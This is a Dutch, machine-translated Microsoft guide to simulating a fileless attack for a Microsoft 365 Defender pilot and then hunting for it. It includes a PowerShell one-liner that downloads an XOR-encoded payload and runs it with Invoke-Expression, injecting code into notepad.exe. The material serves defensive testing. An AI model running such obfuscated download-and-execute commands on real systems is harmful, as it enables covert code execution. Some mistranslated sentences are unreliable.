

# <a name="run-your-microsoft-365-defender-attack-simulations"></a>Voer uw microsoft 365 Defender-aanvalsveren nu uit

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|[](mtp-pilot-plan.md)<br/>[Planning](mtp-pilot-plan.md)|[](prepare-mtpeval.md)<br/>[Voorbereiding](prepare-mtpeval.md)|<br/>Een aanval simuleren|[](mtp-pilot-close.md)<br/>[Sluiten en samenvatten](mtp-pilot-close.md)|
|--|--|--|--|
|||*U bent hier!*||

U zit momenteel in de fase van de aanvals-testfase.

Nadat u de testomgeving hebt voorbereid, is het tijd om het microsoft 365 Defender-incidentbeheer en geautomatiseerde onderzoek en herstelmogelijkheden te testen. We helpen u bij het simuleren van een geavanceerde aanval die gebruik maakt van geavanceerde technieken om detectie te verbergen. Met de aanval worden geopende SMB-sessies (Server Message Block) op domeincontrollers weergegeven en worden recente IP-adressen van apparaten van gebruikers opgehaald. Deze categorie aanvallen bevat meestal geen bestanden die op het apparaat van het slachtoffer zijn gevallen. Ze komen uitsluitend in het geheugen voor. Ze 'wonen buiten het land' door gebruik te maken van bestaande systeem- en beheerhulpprogramma's en hun code in systeemprocessen in te voeren om de uitvoering te verbergen, dit zorgt ervoor dat ze detectie kunnen vermijden en zich op het apparaat kunnen voordoen.

In dezeulatie begint ons voorbeeldscenario met een PowerShell-script. Het kan zijn dat een gebruiker een script moet uitvoeren. Of het script kan worden uitgevoerd vanaf een externe verbinding met een andere computer vanaf een eerder geïnfecteerd apparaat: de aanvaller die later in het netwerk probeert te bewegen. Het detecteren van deze scripts kan lastig zijn omdat beheerders ook vaak scripts op afstand uitvoeren om diverse beheeractiviteiten uit te voeren.


Tijdens deulatie wordt met de aanval shellcode in een schijnbaar volledig proces in de loop van de tijd invoeren. Voor dit scenario is het gebruik van notepad.exe. We hebben dit proces gekozen voor de terugloop, maar kwaadwillende mensen willen waarschijnlijk een lang proces, zoals svchost.exe. De shellcode gaat vervolgens verder om contact op te nemen met de command-and-control-server (C2) van de aanvaller voor instructies over hoe u verder kunt gaan. Het script probeert query's uit te voeren op de domeincontroller (DC). Met 1000 kan een aanvaller informatie krijgen over recente aanmeldingsgegevens van gebruikers. Zodra aanvallers deze informatie hebben, kunnen ze later naar een specifiek gevoelig account gaan in het netwerk

> [!IMPORTANT]
> Voor optimale resultaten volgt u de instructies voor de aanvalsinstructies zo goed mogelijk.

## <a name="simulation-environment-requirements"></a>Vereisten voor vereisten voor omgevingen met vereisten voor de vereisten

Aangezien u uw testomgeving al tijdens de voorbereidingsfase hebt geconfigureerd, moet u ervoor zorgen dat u twee apparaten hebt voor dit scenario: een testapparaat en een domeincontroller.

1. Controleer of microsoft [365 Defender is](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)ingeschakeld in uw tenant.

2. Controleer de configuratie van de testdomeincontroller:

   - Apparaat wordt uitgevoerd met Windows Server 2008 R2 of een latere versie.
   - De testdomeincontroller voor [Microsoft Defender voor identiteit en](https://docs.microsoft.com/azure/security-center/security-center-wdatp) het [inschakelen van extern beheer.](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager)
   - Controleer of [de integratie van Microsoft Defender voor identiteit en Microsoft Cloud App-beveiliging](https://docs.microsoft.com/cloud-app-security/mdi-integration) is ingeschakeld.
   - Er wordt een testgebruiker gemaakt in uw domein. Er zijn geen beheerdersmachtigingen nodig.

3. Testapparaatconfiguratie controleren:

   1. Apparaat wordt uitgevoerd met Windows 10-versie 1903 of een latere versie.

   1. Testapparaat is aan het testdomein verbonden.

   1. [Schakel Windows Defender Antivirus in.](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) Zie dit onderwerp voor probleemoplossing als u problemen hebt met het inschakelen van Windows Defender [Antivirus.](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)

   1. Controleer of het testapparaat is [onboarded bij Microsoft Defender voor eindpunt).](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)

Als u een bestaande tenant gebruikt en apparaatgroepen implementeert, maakt u een speciale apparaatgroep voor het testapparaat en pusht u deze naar het hoogste niveau in configuratie UX.

## <a name="run-the-attack-scenario-simulation"></a>De scenario's voor aanvallen uitvoeren

Om de scenario's voor aanvallen uit te voeren:

1. Meld u aan bij het testapparaat met het testgebruikersaccount.

2. Open een Windows PowerShell-venster op het testapparaat.

3. Kopieer het volgende script voor de scripts:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Als u dit document opent in een webbrowser, ondervindt u mogelijk problemen bij het kopiëren van de volledige tekst zonder bepaalde tekens kwijt te raken of extra regel-pauzes in te introduceren. Download dit document en open het in Adobe Reader.

4. Plak bij de prompt het gekopieerde script en voer het uit.

> [!NOTE]
> Als u PowerShell gebruikt met RDP (Remote Desktop Protocol), gebruikt u de opdracht Klembordtekst typen in de RDP-client omdat de **sneltoets Ctrl-V** of de methode voor klikken met de rechtermuisknop mogelijk niet werkt. Recente versies van PowerShell accepteren deze methode soms ook niet, mogelijk moet u eerst in het geheugen naar Kladblok kopiëren, deze kopiëren naar de virtuele computer en vervolgens in PowerShell plakken.

Een paar seconden later <i> wordtnotepad.exe</i> geopend. Een gesimuleerde aanvalscode wordt toegevoegd aan notepad.exe. Houd het automatisch gegenereerde kladblok-exemplaar open voor het volledige scenario.

De gesimuleerde aanvalscode probeert te communiceren met een extern IP-adres (de C2-server simuleren) en probeert vervolgens via SMB aan de domeincontroller te proberen.

Wanneer dit script is voltooid, wordt er een bericht weergegeven op de PowerShell-console.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Als u de functie Automatisch incident en reactie in actie wilt zien, houdt u de notepad.exe geopend. U ziet dat het proces Automatisch incident en Automatisch antwoord wordt gestopt.

## <a name="investigate-an-incident"></a>Een incident onderzoeken

> [!NOTE]
> Bekijk de volgende video om te zien hoe incidentbeheer u helpt om de gerelateerde waarschuwingen samen te stellen als onderdeel van het onderzoeksproces, waar u deze kunt vinden in de portal en hoe het u kan helpen bij uw beveiligingsbewerkingen:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Als u overschakelt naar het beeldpunt van de SOC-analist, kunt u nu de aanval onderzoeken in de portal van het Microsoft 365-beveiligingscentrum.

1. Open de [incidentwachtrij van het Microsoft 365-beveiligingscentrum-portal](https://security.microsoft.com/incidents) vanaf elk apparaat.

2. Navigeer **naar Incidenten** in het menu.

    

3. Het nieuwe incident voor de gesimuleerde aanval wordt weergegeven in de wachtrij voor incidenten.

    

### <a name="investigate-the-attack-as-a-single-incident"></a>Onderzoek de aanval als één incident

Microsoft 365 Defender correleren analyses en verzamelt alle gerelateerde waarschuwingen en onderzoeken van verschillende producten tot één incidententiteit. Op deze basis toont Microsoft 365 Defender een bredere aanval, waardoor de SOC-analist complexe bedreigingen kan begrijpen en beantwoorden.

De waarschuwingen die tijdens deze weerslag worden gegenereerd, worden gekoppeld aan dezelfde bedreiging en worden daarom automatisch samengevoegd als één incident.

Het incident weergeven:

1. Navigeer naar de **wachtrij incidenten.**

   

2. Selecteer het nieuwste item door te klikken op de cirkel links van de naam van het incident. In een zijpaneel wordt aanvullende informatie over het incident weergegeven, inclusief alle gerelateerde waarschuwingen. Elk incident heeft een unieke naam die het beschrijft op basis van de kenmerken van de waarschuwingen die het bevat.

   

   De waarschuwingen die in het dashboard worden weergeven, kunnen worden gefilterd op basis van servicebronnen: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender en Microsoft Defender voor Office 365.

3. Selecteer **Incidentpagina openen voor** meer informatie over het incident.

   Op de **pagina Incident** ziet u alle waarschuwingen en informatie met betrekking tot het incident. Deze informatie omvat de entiteiten en assets die betrokken zijn bij de waarschuwing, de detectiebron van de waarschuwingen (Microsoft Defender for Identity, EDR) en de reden waarom deze aan elkaar zijn gekoppeld. Als u de lijst met incidenten bekijkt, ziet u de voortgang van de aanval. In deze weergave kunt u de afzonderlijke waarschuwingen bekijken en onderzoeken.

   U kunt ook klikken **op Incident beheren** in het rechtermenu om het incident te taggen, aan uzelf toe te wijzen en opmerkingen toe te voegen.

   

   

### <a name="review-generated-alerts"></a>Gegenereerde waarschuwingen controleren

Laten we eens kijken naar enkele waarschuwingen die zijn gegenereerd tijdens de gesimuleerde aanval.

> [!NOTE]
> We doorloop slechts een paar waarschuwingen die zijn gegenereerd tijdens de gesimuleerde aanval. Afhankelijk van de versie van Windows en de Microsoft 365 Defender-producten die op uw testapparaat worden uitgevoerd, ziet u mogelijk meer waarschuwingen in een iets andere volgorde.


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a>Waarschuwing: verdachte procesinjectie waargenomen (bron: Microsoft Defender voor eindpunt EDR)

Geavanceerde aanvallers gebruiken geavanceerde en geavanceerde methoden om in het geheugen te blijven en te verbergen voor hulpprogramma's voor detectie. Een veelgebruikte techniek is om te werken vanuit een vertrouwd systeemproces in plaats van een schadelijk uitvoerbaar bestand, waardoor het moeilijk wordt om de kwaadaardige code te herkennen door hulpprogramma's voor detectie en beveiligingsbewerkingen.

Om de SOC-analisten toe te staan deze geavanceerde aanvallen te pakken, bieden de deep memory-sensoren in Microsoft Defender for Endpoint onze cloudservice inzicht in diverse technieken voor het invoeren van code op verschillende processen. In de volgende afbeelding ziet u hoe Defender voor eindpunt heeft gedetecteerd en gewaarschuwd bij een poging code in te voeren voor <i>notepad.exe. </i>


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a>Waarschuwing: Onverwacht gedrag waargenomen door een proces zonder opdrachtregelargumenten (Bron: Microsoft Defender voor Eindpunt EDR)

Detecties van Microsoft Defender voor eindpunten zijn vaak gericht op het meest voorkomende kenmerk van een aanvalstechniek. Met deze methode zorgt u ervoor dat aanvallers kunnen overstappen op nieuwere tactieken.

We gebruiken grote leeralgoritmen om het normale gedrag van gangbare processen binnen een organisatie en over de hele wereld vast te stellen en om te zien wanneer deze processen afwijkende gedrag vertonen. Dit afwijkende gedrag geeft vaak aan dat overbodige code is geïntroduceerd en wordt uitgevoerd in een anderszins vertrouwd proces.

In dit scenario vertonen <i>notepad.exe</i> proces abnormaal gedrag, waarbij communicatie met een externe locatie betrokken is. Dit resultaat staat los van de specifieke methode die wordt gebruikt om de schadelijke code in te voeren en uit te voeren.

> [!NOTE]
> Omdat deze waarschuwing is gebaseerd op machine learning-modellen waarvoor extra back-endverwerking is vereist, kan het enige tijd duren voordat u deze waarschuwing in de portal ziet.

U ziet dat de details van de waarschuwing het externe IP-adres bevatten, een indicator die u kunt gebruiken als een draaipunt om onderzoek uit te breiden.

Selecteer het IP-adres in de structuur van het waarschuwingsproces om de pagina met IP-adresdetails weer te geven.


In de volgende afbeelding ziet u de geselecteerde pagina met IP-adresgegevens (waarbij u op het IP-adres in de processtructuur voor waarschuwingen klikt).


#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Waarschuwing: Gebruik en IP-adres (SMB) (Source: Microsoft Defender for Identity)

Door de gegevens op te geven met behulp van het SMB-protocol (Server Message Block) kunnen kwaadwillende gebruikers recente aanmeldingsgegevens verkrijgen die ze later in het netwerk helpen om toegang te krijgen tot een specifiek gevoelig account.

Bij deze detectie wordt een waarschuwing geactiveerd wanneer de SMB-sessie-opsporing wordt uitgevoerd op een domeincontroller.


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a>De tijdlijn van het apparaat controleren [Microsoft Defender voor eindpunt]

Na het bekijken van de verschillende waarschuwingen in dit incident, gaat u terug naar de pagina met incidenten die u eerder hebt onderzocht. Selecteer het **tabblad Apparaten** op de incidentpagina om de apparaten te controleren die betrokken zijn bij dit incident, zoals gerapporteerd door Microsoft Defender voor eindpunt en Microsoft Defender voor identiteit.

Selecteer de naam van het apparaat waarop de aanval is uitgevoerd om de entiteitspagina voor dat specifieke apparaat te openen. Op die pagina kunt u waarschuwingen zien die zijn geactiveerd en gerelateerde gebeurtenissen.

Selecteer het **tabblad Tijdlijn** om de tijdlijn van het apparaat te openen en alle gebeurtenissen en gedragingen te bekijken die op het apparaat in chronologische volgorde worden waargenomen, afgewisseld met de waarschuwingen verhoogd.


Het uitbreiden van een deel van het interessantere gedrag biedt nuttige informatie, zoals procesbomen.

Schuif bijvoorbeeld omlaag totdat u de waargenomen meldingsgebeurtenis **Verdachte procesinjectie vindt.** Selecteer de **powershell.exe** toegevoegd aan notepad.exe onderstaande procesgebeurtenis, om de volledige processtructuur  voor dit gedrag weer te geven onder de grafiek Gebeurtenisentiteiten in het zijvenster. Gebruik zo nodig de zoekbalk om te filteren.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>De gebruikersgegevens bekijken [Beveiliging van Microsoft Cloud-app]

Selecteer op de incidentpagina het tabblad **Gebruikers** om de lijst weer te geven met gebruikers die betrokken zijn bij de aanval. De tabel bevat aanvullende informatie over elke gebruiker, met inbegrip van de prioriteitscore voor **onderzoek van elke** gebruiker.

Selecteer de gebruikersnaam om de profielpagina van de gebruiker te openen waar nader onderzoek kan worden uitgevoerd. [Lees meer over het onderzoeken van risicovolle gebruikers.](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify)


## <a name="automated-investigation-and-remediation"></a>Geautomatiseerd onderzoek en herstel

> [!NOTE]
>Bekijk de volgende video om vertrouwd te raken met wat automatisch zelf-is, waar u het kunt vinden in de portal en hoe deze kan helpen bij uw beveiligingsbewerkingen voordat we u door deze zelfvervolging leiden:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Ga terug naar het incident in de portal van het Microsoft 365-beveiligingscentrum. Op **het tabblad Onderzoeken** op de pagina **Incident** ziet u de geautomatiseerde onderzoeken die zijn geactiveerd door Microsoft Defender for Identity en Microsoft Defender for Endpoint. In de onderstaande schermafbeelding ziet u alleen het geautomatiseerde onderzoek dat is geactiveerd door Defender voor eindpunt. Standaard herstelt Defender for Endpoint automatisch de artefacten die zijn gevonden in de wachtrij, waarvoor herstel nodig is.


Selecteer de waarschuwing die een onderzoek heeft geactiveerd om de **detailpagina voor onderzoek te** openen. U ziet de volgende details:

- Waarschuwingen die het geautomatiseerde onderzoek hebben geactiveerd.
- Beïnvloede gebruikers en apparaten. Als er indicatoren worden gevonden op andere apparaten, worden deze extra apparaten ook vermeld.
- Lijst met bewijsstukken. De entiteiten die zijn gevonden en geanalyseerd, zoals bestanden, processen, services, stuurprogramma's en netwerkadressen. Deze entiteiten worden geanalyseerd op mogelijke relaties met de waarschuwing en worden beoordeeld als goed of schadelijk.
- Er zijn bedreigingen gevonden. Bekende bedreigingen die tijdens het onderzoek worden gevonden.

> [!NOTE]
> Afhankelijk van de timing is het geautomatiseerde onderzoek mogelijk nog actief. Wacht enkele minuten totdat het proces is voltooid voordat u het bewijs verzamelt en analyseert en de resultaten bekijkt. Vernieuw de **detailpagina voor** onderzoek om de meest recente resultaten te zien.


Tijdens het automatische onderzoek is door Microsoft Defender for Endpoint het notepad.exe geïdentificeerd, dat is toegevoegd als een van de artefacten die herstel vereisen. Defender voor het eindpunt stopt automatisch de verdachte procesinjectie als onderdeel van de geautomatiseerde oplossing.

U kunt <i> zien </i>notepad.exeverdwijnen uit de lijst met lopende processen op het testapparaat.

## <a name="resolve-the-incident"></a>Het incident oplossen

Sluit het incident nadat het onderzoek is voltooid en bevestigd is dat het is vereenteerd.

Selecteer **Incident beheren.** Stel de status in op **Incident oplossen** en selecteer de relevante classificatie.

Wanneer het incident is opgelost, worden alle bijbehorende waarschuwingen gesloten in het Microsoft 365-beveiligingscentrum en in de verwante portals.


Hiermee wordt de aanvalsverensleeding voor het incidentbeheer en geautomatiseerde onderzoek en herstelscenario's verwikkeld. Met de volgende benadering wordt u proactief op zoek naar potentieel schadelijke bestanden.

## <a name="advanced-hunting-scenario"></a>Scenario geavanceerd zoeken

> [!NOTE]
> Bekijk eerst de volgende video om meer te weten te komen over de geavanceerde zoekconcepten, om te zien waar u deze kunt vinden in de portal en hoe deze u kan helpen bij uw beveiligingsbewerkingen:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Vereisten voor het zoeken naar een omgeving

Er is één intern postvak en apparaat vereist voor dit scenario. U hebt ook een extern e-mailaccount nodig om het testbericht te verzenden.

1. Controleer of Microsoft [365 Defender is](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)ingeschakeld in uw tenant.
2. Identificeer een doelpostvak dat moet worden gebruikt voor het ontvangen van e-mail.
    a. Dit postvak moet worden gecontroleerd door Microsoft Defender voor Office 365 b. Het apparaat van vereiste 3 moet toegang krijgen tot dit postvak
3. Configureer een testapparaat: a. Zorg ervoor dat u Windows 10 versie 1903 of hoger gebruikt.
    b. Neem deel aan het testapparaat aan het testdomein.
    c. [Schakel Windows Defender Antivirus in.](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) Zie dit onderwerp voor probleemoplossing als u problemen hebt met het inschakelen van Windows Defender [Antivirus.](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)
    d. [Onboard voor Microsoft Defender voor eindpunt.](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)

### <a name="run-the-simulation"></a>De computerstimulatie uitvoeren

1. Verzend vanuit een extern e-mailaccount een e-mailbericht naar het postvak dat is geïdentificeerd in stap 2 van de sectie met vereisten voor de testomgeving. Voeg een bijlage toe die is toegestaan via elk bestaand e-mailfilterbeleid. Dit bestand hoeft niet schadelijk of uitvoerbaar te zijn. Voorgestelde bestandstypen zijn <i>.pdf,</i> <i>.exe</i> (indien toegestaan) of Office-documenten zoals een Word-bestand.
2. Open de verzonden e-mail vanaf het apparaat dat is geconfigureerd zoals gedefinieerd in stap 3 van de sectie met vereisten voor de testomgeving. Open de bijlage of sla het bestand op het apparaat op.

#### <a name="go-hunting"></a>Op zoek gaan

1. Open de security.microsoft.com portal.

2. Navigeer **naar > geavanceerd zoeken.**

   

3. Maak een query die begint met het verzamelen van e-mailgebeurtenissen.

   1. Selecteer Nieuw in het querydeelvenster.

   1. Dubbelklik in het schema op de tabel EmailEvents.

      ```console
      EmailEvents
      ```

   1. Wijzig de tijd in de laatste 24 uur. Stel dat de e-mail die u hebt verzonden toen u de bovenstaande tijden had, de afgelopen 24 uur was. Wijzig anders de periode.

      

   1. Voer de query uit. Mogelijk hebt u veel resultaten, afhankelijk van de omgeving voor de testfase.

      > [!NOTE]
      > Zie de volgende stap voor het filteren van opties om het retourneren van gegevens te beperken.

      

        > [!NOTE]
        > Bij geavanceerd zoeken worden queryresultaten weergegeven als tabelgegevens. U kunt er ook voor kiezen om de gegevens weer te geven in andere typen indelingen, zoals grafieken.

   1. Bekijk de resultaten en kijk of u de e-mail kunt identificeren die u hebt geopend. Het kan tot 2 uur duren voordat het bericht wordt weergegeven in geavanceerd zoeken. Als de e-mailomgeving groot is en er veel resultaten zijn, kunt u de optie **Filters** tonen gebruiken om het bericht te vinden.

      In het voorbeeld is het e-mailbericht verzonden vanuit een Yahoo-account. Klik op het pictogram naast yahoo.com de sectie SenderFromDomain en klik vervolgens op Toepassen om het geselecteerde domein aan **+** de query toe te voegen.   Gebruik het domein of e-mailaccount dat is gebruikt om het testbericht te verzenden in stap 1 van Uitvoeren van de resultaten om de resultaten te filteren. Voer de query opnieuw uit om een kleinere resultatenset te krijgen om te controleren of u het bericht van de vereending ziet.

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. Klik op de resulterende rijen uit de query zodat u de record kunt controleren.

      

4. Nu u hebt geverifieerd dat u het e-mailbericht kunt zien, voegt u een filter voor de bijlagen toe. Richt u op alle e-mailberichten met bijlagen in de omgeving. In dit scenario richt u zich op inkomende e-mailberichten, niet op de e-mails die vanuit uw omgeving worden verzonden. Verwijder alle filters die u hebt toegevoegd om uw bericht te zoeken en voeg '| waarbij **AttachmentCount > 0** en **EmailDirection**  ==  **'Inbound'**

   In de volgende query ziet u het resultaat met een kortere lijst dan de oorspronkelijke query voor alle e-mailgebeurtenissen:

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. Voeg vervolgens de informatie over de bijlage (zoals bestandsnaam, hashes) toe aan de resultatenset. Dit doet u door deel te nemen aan de tabel **EmailAttachmentInfo.** De gemeenschappelijke velden die moeten worden gebruikt voor het samenvoegen, in dit geval **NetworkMessageId** en **RecipientObjectId.**

   De volgende query bevat ook een extra regel '| **project-rename EmailTimestamp=Timestamp"** waarmee u kunt vaststellen welke tijdstempel is gerelateerd aan de e-mail- of tijdstempels met betrekking tot bestandsacties die u in de volgende stap toevoegt.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. Gebruik vervolgens de **SHA256-waarde** van de tabel **EmailAttachmentInfo** om **DeviceFileEvents (bestandsacties** die zijn gebeurd op het eindpunt) voor die hash te vinden. Het gemeenschappelijke veld hier is de SHA256-hash voor de bijlage.

   De resulterende tabel bevat nu details van het eindpunt (Microsoft Defender for Endpoint), zoals de apparaatnaam, welke actie is uitgevoerd (in dit geval gefilterd zodat alleen FileCreated-gebeurtenissen zijn opnemen) en waar het bestand is opgeslagen. De accountnaam die aan het proces is gekoppeld, wordt ook opgenomen.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   U hebt nu een query gemaakt die alle inkomende e-mailberichten identificeert waarin de gebruiker de bijlage heeft geopend of opgeslagen. U kunt deze query ook verfijnen om te filteren op specifieke afzenderdomeinen, bestandsgrootten, bestandstypen, en meer.

7. Functies zijn een speciaal type join, waarmee u meer TI-gegevens over een bestand kunt halen, zoals zijn soort bestanden, gegevens over ondertekenaars en gevers, enzovoort. Voor meer informatie over het bestand gebruikt u de functie **FileProfile()** verrijking:

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a>Een detectie maken

Nadat u een query hebt gemaakt die informatie  identificeert die u wilt laten weten als ze in de toekomst plaatsvinden, kunt u een aangepaste detectie maken op de query.

Met aangepaste detecties wordt de query uitgevoerd op basis van de frequentie die u hebt ingesteld. Met de resultaten van de query's worden beveiligingswaarschuwingen gemaakt op basis van de beïnvloede assets die u kiest. Deze waarschuwingen zijn gerelateerd aan incidenten en kunnen worden gesyreerd als andere beveiligingswaarschuwingen die door een van de producten worden gegenereerd.

1. Verwijder op de querypagina de regels 7 en 8 die zijn toegevoegd in stap 7 van de zoekinstructies en klik op **Detectieregel maken.**

   

   > [!NOTE]
   > Als u op **De detectieregel maken** klikt en uw query syntaxisfouten bevat, wordt de detectieregel niet opgeslagen. Controleer de query nog eens om er zeker van te zijn dat er geen fouten zijn.

2. Vul de vereiste velden in met de informatie die het beveiligingsteam inzicht geeft in de waarschuwing, waarom deze is gegenereerd en welke acties ze naar verwachting zullen uitvoeren.

   

   Zorg ervoor dat de velden duidelijk zijn om de volgende gebruiker een weloverwogen beslissing te geven over deze waarschuwing voor de detectieregel

3. Selecteer de entiteiten die worden beïnvloed in deze waarschuwing. Selecteer in dit geval **Apparaat en** **Postvak.**

   

4. Bepaal welke acties er moeten plaatsvinden als de waarschuwing wordt geactiveerd. Voer in dit geval een antivirusscan uit, hoewel er andere acties kunnen worden uitgevoerd.

   

5. Selecteer het bereik voor de waarschuwingsregel. Aangezien deze query apparaten gebruikt, zijn de apparaatgroepen relevant in deze aangepaste detectie op basis van de context van Microsoft Defender for Endpoint. Wanneer u een aangepaste detectie maakt die apparaten niet als beïnvloede entiteiten bevat, is het bereik niet van toepassing.

   

   Voor deze testfase wilt u deze regel wellicht beperken tot een subset van testapparaten in uw productieomgeving.

6. Selecteer **Maken**.  Selecteer vervolgens aangepaste **detectieregels** in het navigatiedeelvenster.

   

   

   Op deze pagina kunt u de detectieregel selecteren, waarmee een detailpagina wordt geopend.

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Aanvullende geavanceerde oefeningen om te zoeken

Voor meer informatie over geavanceerd zoeken worden in de volgende webcasts de mogelijkheden van geavanceerd zoeken in Microsoft 365 Defender gebruikt om query's op meerdere pagina's te maken, entiteiten te draaien en aangepaste detecties en herstelacties te maken.

> [!NOTE]
> Wees voorbereid met uw eigen GitHub-account om de zoekquery's uit te voeren in uw testtestomgeving.

|Title|Beschrijving|MP4 downloaden|Bekijken op YouTube|CSL-bestand voor gebruik|
|---|---|---|---|---|
|Aflevering 1: Basisprincipes van KQL|We behandelen de basisbeginselen van geavanceerde zoekmogelijkheden in Microsoft 365 Defender. Meer informatie over de beschikbare geavanceerde zoekgegevens en basis-KQL-syntaxis en operatoren.|[MP4](https://aka.ms/MTP15JUL20_MP4)|[YouTube](https://youtu.be/0D9TkGjeJwM)|[Aflevering 1: CSL-bestand in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|Aflevering 2: Joins|We zullen meer te weten blijven komen over gegevens op het geavanceerde zoeken en het bij elkaar brengen van tabellen. Meer informatie over inner, outer, unieke en semi-joins en de nuances van de standaard Kusto innerunique-join.|[MP4](https://aka.ms/MTP22JUL20_MP4)|[YouTube](https://youtu.be/LMrO6K5TWOU)|[Aflevering 2: CSL-bestand in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|Aflevering 3: gegevens samenvatten, draaien en visualiseren|Nu we gegevens kunnen filteren, manipuleren en joinen, is het tijd om te beginnen met het samenvatten, kwantificeren, draaien en visualiseren. In deze aflevering beschrijven we de samenvattingsoperator en een aantal van de berekeningen die u kunt uitvoeren terwijl u in het geavanceerde schema voor het zoeken naar andere tabellen duikt. We zetten onze gegevenssets om in grafieken waarmee de analyse kan worden verbeterd.|[MP4](https://aka.ms/MTP29JUL20_MP4)|[YouTube](https://youtu.be/UKnk9U1NH6Y)|[Aflevering 3: CSL-bestand in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
